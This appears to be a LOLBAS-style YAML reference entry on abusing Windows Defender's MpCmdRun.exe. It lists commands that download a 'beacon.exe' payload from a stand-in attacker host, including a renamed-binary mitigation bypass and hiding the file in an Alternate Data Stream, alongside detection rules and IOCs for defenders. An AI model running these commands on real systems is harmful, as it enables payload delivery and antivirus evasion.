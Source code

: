 ```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: 'Oddvar Moe'
Created: 2020-03-20
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url https://attacker.server/beacon.exe -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) [updated version to bypass Windows 10 mitigation]
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\temp\nicefile.txt:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data inton an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/159bf4bbc103cc2be3fef4b7c2e7c8b23b63fd10/rules/windows/process_creation/win_susp_mpcmdrun_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/6ef5c53b0c15e344f0f2d1649941391aea6fa253/rules/windows/command_and_control_remote_file_copy_mpcmdrun.toml
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun retrieving a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: RichRumble
    Handle: ''
  - Person: Cedric
    Handle: '@th3c3dr1c'
---
```

